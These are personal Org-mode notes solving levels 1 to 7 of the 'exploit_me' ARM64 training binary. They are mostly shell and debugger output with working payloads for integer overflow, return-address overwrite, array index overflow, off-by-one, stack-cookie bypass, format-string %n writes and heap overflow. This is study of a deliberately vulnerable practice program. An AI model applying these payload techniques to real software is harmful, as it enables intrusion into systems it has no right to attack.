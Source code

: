 #+TITLE: Exploit_me
#+OPTIONS: num:0 toc:nil html-postamble:nil
#+PROPERTY: header-args :tangle yes :exports both :eval no-export :results output
 
* Introduction

 A colleague told me about [[https://github.com/bkerler/exploit_me][exploit_me]] to learn more about ARM exploitation. 

 So here are my raw notes. I've not made an effort to go into much detail, so they will most likley only be useful to me.

* Level1

 No idea what I'm doing, but I ended up solving it

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64
usage: ./exploit64 <level_password> <arg1> <arg2>
Level 1 Password="hello"
pi@raspberry64:~/exploit_me/bin $ ./exploit64 hello
usage: ./exploit64 hello <value>
pi@raspberry64:~/exploit_me/bin $ ./exploit64 hello a
Value less or equal 0 is not allowed.
pi@raspberry64:~/exploit_me/bin $ ./exploit64 hello 0
Value less or equal 0 is not allowed.
pi@raspberry64:~/exploit_me/bin $ ./exploit64 hello -1
Value 65535 defined.
pi@raspberry64:~/exploit_me/bin $ ./exploit64 hello 65535
Value 65535 defined.
pi@raspberry64:~/exploit_me/bin $ ./exploit64 hello 65536
Level 2 Password: "help"
#+END_EXAMPLE

* Level2

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 help
usage: ./exploit64 help <username> <password>
pi@raspberry64:~/exploit_me/bin $ ./exploit64 help test test
Login failed
#+END_EXAMPLE

#+BEGIN_EXAMPLE 
pwndbg> run help aaaaaaaaaaaaaaaa aaaaaaaaaaaaa
Starting program: /home/pi/exploit_me/bin/exploit64 help aaaaaaaaaaaaaaaa aaaaaaaaaaaaa
Login failed

Program received signal SIGSEGV, Segmentation fault.

pwndbg> run help aaaaaaaaaaaaaaaa admin
Starting program: /home/pi/exploit_me/bin/exploit64 help aaaaaaaaaaaaaaaa admin
Login failed

Program received signal SIGSEGV, Segmentation fault.
#+END_EXAMPLE

Thats 16 a's for the username. Lets get the address for =level3password()=

#+BEGIN_EXAMPLE 
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400280  _init
[..snip..]
0x00000000004011f0  level3password()
#+END_EXAMPLE

Then its just enough padding and the address of the function

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 help $(python -c "import sys;sys.stdout.buffer.write(b'A'*16+b'\xf0\x11\x40\x00\x00\x00\x00\x00\x00')") password
-bash: warning: command substitution: ignored null byte in input
Login failed
Level 3 Password: "Velvet"
#+END_EXAMPLE

* Level3

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 Velvet
usage: ./exploit64 Velvet <arraypos> <value>
pi@raspberry64:~/exploit_me/bin $ ./exploit64 Velvet abc abc
filling array position 0 with 0
#+END_EXAMPLE

Hmmmm not overly sure what to do here. The hint says;

"Hint: You have a maximum of 32 slots to store content."

So we are working with intergers. Lets get the pointer to =level4password()=

#+BEGIN_EXAMPLE 
pwndbg> info functions
All defined functions:

Non-debugging symbols:
[..snip..]
0x0000000000401340  level4password()
#+END_EXAMPLE

So now just overflow the array and then point to the function.

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 Velvet 34 $(python -c 'print("%d" % 0x0000000000401340)')
Level 4 Password: "mysecret"
Level 4 Password: "mysecret"
Level 4 Password: "mysecret"
Level 4 Password: "mysecret"
#+END_EXAMPLE

* Level4

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mysecret
usage: ./exploit64 mysecret <magic>

pi@raspberry64:~/exploit_me/bin $ ./exploit64 mysecret magic
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mysecret aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
#+END_EXAMPLE

The challenge is called off by one, and the hint mentioned null bytes.

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mysecret $(python -c "print('A'*10000+'\x00')")
-bash: warning: command substitution: ignored null byte in input
Length higher 256 not allowed !
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mysecret $(python -c "print('A'*256+'\x00')")
-bash: warning: command substitution: ignored null byte in input
Level 5 Password: "freedom"
#+END_EXAMPLE

* Level5

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom
usage: ./exploit64 freedom <magic>

pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom a
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaa
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaaaaaaaaa
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaaaaaaaaaaaaaaaaaaa
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Running normally
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Error: Stack corrupted !
#+END_EXAMPLE

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ gdb -q ./exploit64

pwndbg> info functions
All defined functions:
[..snip..]
0x0000000000401108  goodPassword()
0x0000000000401174  format_string(char*)
0x00000000004011f0  level3password()
0x0000000000401218  stack_cookie(char*)
0x00000000004012b8  level5password()
[..snip..]
b *0x0000000000401218
r freedom aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
#+END_EXAMPLE

eventually i saw something like this

#+BEGIN_EXAMPLE 
pwndbg> 
0x000000000040122c in stack_cookie(char*) ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
*X0   0x4ae10c (secret) ◂— 0x4031a000001337
 X1   0x0

[..snip..]
#+END_EXAMPLE

Is it that simple ?

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 freedom $(python -c "print('a'*64+'\x01\x00\x00\x00'+'\x37\x13\x00\x00')")
-bash: warning: command substitution: ignored null byte in input
Running normally
Level 6 Password: "happyness"
#+END_EXAMPLE

So fill up the buffer with 64 a's then add an argument of 1, then pass in the secrete stack cookie value.

* Level6

Hint: r should return Y instead of N. But sometimes codes don't want you to reach a simple 'Y'.  But maybe a print function is buggy ?

Oh hello

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ ./exploit64 happyness
Enter your password:%1x%1x%1x
Password=00236c9000

r=N
No Level Password for you today.
#+END_EXAMPLE

Bit of playing around lead to this, basically =%16x= is interpreted wrong, and we can leak memory addresses. Typically that'll be it, but we need to make ~r=Y~, ~%201c~ is the value to write to get the char 'Y'.

#+BEGIN_EXAMPLE 
pi@raspberry64:~/exploit_me/bin $ python -c "print('%16x'*9+'%201c%n')" | ./exploit64 happyness
Enter your password:Password=               0               0        2ccb6000        fbad2887               0        c9f69428        ffffffff        c9f69ba0          401190                                                                                                                                                                                                        ?

r=Y
Level 7 Password: "mypony"
#+END_EXAMPLE

* Level7

Hint: Success will be for those to change the magic to 0x6763

Yeah, i jut bruteforced it 

#+BEGIN_EXAMPLE 
$ ./exploit64 mypony $(python -c 'print("A"*10 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*20 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*30 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*40 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*50 + "\x63\x67")')
Heap magic number: 0x67634141
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*41 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*42 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*43 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*44 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*45 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*46 + "\x63\x67")')
Heap magic number: 0x0
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*47 + "\x63\x67")')
Heap magic number: 0x67
pi@raspberry64:~/exploit_me/bin $ ./exploit64 mypony $(python -c 'print("A"*48 + "\x63\x67")')
Heap magic number: 0x6763
Level 8 Password: "Exploiter"
#+END_EXAMPLE